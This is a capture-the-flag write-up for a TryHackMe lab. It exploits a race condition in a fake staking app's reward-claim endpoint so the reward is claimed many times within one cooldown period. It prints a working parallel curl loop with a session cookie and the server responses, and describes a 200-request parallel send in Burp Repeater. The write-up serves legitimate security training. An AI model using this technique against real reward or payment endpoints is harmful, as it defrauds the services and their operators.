




## Overview

**Towel On The Sunbed** ([TryHackMe](https://tryhackme.com/room/hh-towelonthesunbed-61271709)) is a web challenge built around a fake staking app, "Ponzi Portfolio". The staking reward endpoint lets you claim 50 PONZI once every 24 hours, but the claim-and-cooldown check isn't atomic — fire enough requests at it in parallel and several of them land before the server has a chance to flag the reward as claimed. Racing that endpoint pushes the balance well past the 150 PONZI needed to unlock the Whale Vault, which is where the flag sits.

---

## Enumeration

The app is a simple login/register page:



We registered a new account, `guest2`, and logged in to see what we were working with.



Fresh account, 0 PONZI, "Shrimp" tier. The dashboard has a **Claim Reward** button worth 50 PONZI every 24 hours, and a **Whale Vault** that unlocks at 150 PONZI. A single claim gets nowhere near that — but "once every 24 hours" is exactly the kind of check that's worth hammering with concurrent requests to see if it actually holds.

---

## Exploitation

### Racing the claim endpoint with curl

Grabbed the session cookie from the browser and fired 20 parallel claim requests from the shell:

```text
sid="<SESSION_ID>"
for i in $(seq 20); do
curl -s -X POST http://10.113.179.215:3000/claim \
-H "Cookie: connect.sid=$sid" &
done; wait
{"error":"Reward already claimed. Please wait before claiming again.","secondsRemaining":86400}
{"message":"Staking reward claimed successfully.","reward":50,"newBalance":100,"tier":"Dolphin","priceSnapshot":4.2}{"message":"Staking reward claimed successfully.","reward":50,"newBalance":100,"tier":"Dolphin","priceSnapshot":4.2}{"error":"Reward already claimed. Please wait before claiming again.","secondsRemaining":86400}
{"message":"Staking reward claimed successfully.","reward":50,"newBalance":400,"tier":"Whale","priceSnapshot":4.2}{"error":"Reward already claimed. Please wait before claiming again.","secondsRemaining":86400}{"error":"Reward already claimed. Please wait before claiming again.","secondsRemaining":86400}
{"message":"Staking reward claimed successfully.","reward":50,"newBalance":400,"tier":"Whale","priceSnapshot":4.2}{"message":"Staking reward claimed successfully.","reward":50,"newBalance":400,"tier":"Whale","priceSnapshot":4.2}{"message":"Staking reward claimed successfully.","reward":50,"newBalance":400,"tier":"Whale","priceSnapshot":4.2}
{"error":"Reward already claimed. Please wait before claiming again.","secondsRemaining":86400}{"message":"Staking reward claimed successfully.","reward":50,"newBalance":450,"tier":"Whale","priceSnapshot":4.2}{"error":"Reward already claimed. Please wait before claiming again.","secondsRemaining":86400}
{"message":"Staking reward claimed successfully.","reward":50,"newBalance":450,"tier":"Whale","priceSnapshot":4.2}{"error":"Reward already claimed. Please wait before claiming again.","secondsRemaining":86400}
{"error":"Reward already claimed. Please wait before claiming again.","secondsRemaining":86400}
```

Most of the 20 requests got the expected "already claimed" error, but several slipped through before the cooldown was set, taking the balance from 0 to 450 — well past the 150 PONZI threshold. That confirms the race condition. It's a classic TOCTOU bug: the server checks "has this been claimed in the last 24h?" and only *afterwards* writes the new cooldown, leaving a window where multiple concurrent requests all see "not claimed yet" and all get paid.

### Repeating it in Burp Repeater

Same technique, different tool — no particular reason for redoing it beyond showing both approaches work. Registered a fresh account, hit **Claim Reward**, intercepted the request in Burp and sent it to Repeater. From there we dropped the original, built a group of 200 copies of the claim request, and sent the group in parallel.


> Repeater's "Send group in parallel" option (the dropdown next to **Send group**) is what actually fires the requests concurrently — sending them sequentially defeats the whole point of the race.
{: .prompt-tip }

After the batch finished, the balance sat at 1000 PONZI, Whale tier, vault fully unlocked:



Hit **Open Vault** and grabbed the flag.



> Flag: `THM{...}` — Whale Vault reward.
{: .prompt-info }

---

## Conclusion

1. The staking claim endpoint checked and updated the 24-hour cooldown as two separate steps instead of one atomic operation, leaving a window where concurrent requests all read "not claimed yet."
2. Firing enough parallel requests at that window — whether with a `curl` background loop or Burp Repeater's parallel group send — claimed the reward dozens of times in the space of one cooldown period, inflating the balance from 0 to well past the 150 PONZI Whale Vault threshold in seconds.

**Tools used**

| Stage        | Tools                                  |
|--------------|-----------------------------------------|
| Enumeration  | Browser, Ponzi Portfolio registration   |
| Exploitation | curl, Burp Suite (Repeater, parallel group send) |
